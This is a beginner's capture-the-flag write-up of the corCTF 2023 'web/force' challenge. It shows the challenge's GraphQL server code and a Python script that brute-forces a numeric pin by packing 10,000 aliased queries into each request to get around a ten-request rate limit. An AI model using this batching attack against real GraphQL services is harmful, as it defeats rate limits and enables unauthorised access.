

## Background

corCTF 2023 was a CTF event organized by Crusader of Rust team and was held from Sat, 29 July 2023, 12:00 UTC — Mon, 31 July 2023, 12:00 UTC. There are a total of 39 challenges, with catrgories made up of reverse engineering, web, pwn, crypto and blockchain. Being a novice in CTF and cybersecurity in general, I only managed to complete 1 challenge, which is Force under the web category.

## web/force

In this challenge we are given tarball file to be download. It contains the source code of the web app that we can run as Docker using the Dockerfile provided.

```bash
FROM node:18

WORKDIR /app
COPY src/package* ./
RUN npm ci

COPY src/ .

CMD ["node", "--expose-gc", "web.js"]
```

We can then build the image and run it for testing. I use localhost port 8090 for this container.

```bash
> docker build -t web/force .
docker.io/library/node:18@sha256:c85dc4392f44f5de1d0d72dd20a088a542734445f99bed7aa8ac895c706d370d
writing image sha256:7d7d7a1e650b11de69f6cd2deda18c7c5647c127422c8234927bb25a7f236a34
naming to docker.io/web/force
> docker run -d -p 8090:80 web/force
55c31fd6a62e762300677d9e8cbd8bc9063935860a203e1052d253b106fa8f3b
```

Navigating using the browser we are greeted with the following page


At first I thought the query in the text box is just a normal JSON format. But after looking into the source code I realized that it is GraphQL query. Before trying any exploit, I first try web app as intended to see how it behaves.



Knowing nothing about GraphQL, I do some research online on how GraphQL works and looking up if there are any known vulnerabilities. One of the features of GraphQL is batch querying[^1] where you can do several queries at the same time using only one HTTP request. Thus, this makes for a suitable attack vector for bruteforcing the pin combination[^2]. I then look to the `web.js` for more information of the app.

```js
import fastify from "fastify";
import mercurius from "mercurius";
import { randomInt } from "crypto";
import { readFile } from "fs/promises";

const app = fastify({
  logger: true,
});

const index = await readFile("./index.html", "utf-8");
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
let requests = 10;

setInterval(() => (requests = 10), 60000);

await app.register(mercurius, {
  schema: `type Query {
        flag(pin: Int): String
    }`,
  resolvers: {
    Query: {
      flag: (_, { pin }) => {
        if (pin != secret) {
          return "Wrong!";
        }
        return process.env.FLAG || "corctf{test}";
      },
    },
  },
  routes: false,
});

app.get("/", (req, res) => {
  return res.header("Content-Type", "text/html").send(index);
});

app.post("/", async (req, res) => {
  if (requests <= 0) {
    return res.send("no u");
  }
  requests--;
  return res.graphql(req.body);
});

app.listen({ host: "0.0.0.0", port: 80 });
```

In order to get the flag, the pin we provide need to be the same as the secret value, which is the correct pin. From the code, we can see that the secret value is between 1 and 100k and the maximum number of request that the app accept before refusing to try the query is 10. From this information we can make a batch query with 10k pins each request. To simplify this, I make a python script.

```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
   
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}

while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
   
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
   
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
       
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

This script is probably not the most optimized script but it gets the job done. Running this we can get the flag.

```bash
> python solve.py
retrying...
retrying...
retrying...
retrying...
flag: corctf{test}
```

Running this in the challenge's instance we'll get the flag:

```bash
corctf{S T O N K S}
```

## Fin

Even though I only managed to solve 1 challenge, it is a fun experience and I learned a lot from it. I'm looking forward to learn more about cybersecurity and much looking forward to next year's corCTF. Thank you for reading.

[^1]: https://graphql.org/learn/queries/#aliases
[^2]: https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks
